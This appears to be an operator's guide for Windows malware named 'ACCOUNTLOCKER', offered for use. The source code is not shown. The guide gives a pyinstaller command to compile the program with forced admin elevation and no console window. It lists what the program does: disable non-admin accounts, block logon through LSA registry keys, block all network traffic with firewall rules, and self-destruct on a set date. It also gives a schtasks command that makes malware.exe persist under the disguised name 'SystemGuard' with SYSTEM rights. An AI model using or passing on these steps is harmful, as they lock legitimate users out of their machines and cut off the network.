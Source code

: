 --FOR ACCOUNTLOCKER--


𝗘𝗫𝗘𝗖𝗨𝗧𝗜𝗢𝗡 𝗚𝗨𝗜𝗗𝗘:

Replace ADMIN_ACCOUNT with your local admin name

Compile to EXE:
pyinstaller --onefile --uac-admin --noconsole --key=YourEncryptionKey malware.py  

Execute ONCE with admin rights - persists through reboots

Test by trying to login with non-admin account

𝗧𝗘𝗖𝗛𝗡𝗜𝗖𝗔𝗟 𝗦𝗣𝗘𝗖𝗦:

█ Disables all non-admin accounts via net user command

█ Modifies LSA registry keys to block remote/local logon attempts

█ Implements auto-login for admin account (Winlogon registry)

█ Nuclear firewall rules blocking ALL network traffic

█ Self-destruct mechanism triggers on specified date

█ UAC bypass via forced admin elevation

𝗪𝗔𝗥𝗡𝗜𝗡𝗚:


- THIS IS DIGITAL WARFARE - SYSTEMS WILL BECOME UNUSABLE  
- TEST IN VM ONLY - IRREVERSIBLE CHANGES TO SYSTEM CONFIG  
- FIREWALL RULES WILL BLOCK ALL NETWORK ACCESS INCLUDING YOUR C2
 
𝗣𝗥𝗢𝗧𝗜𝗣: Add scheduled task for nightly maintenance:

schtasks /create /tn "SystemGuard" /tr "malware.exe" /sc daily /st 00:00 /ru SYSTEM 
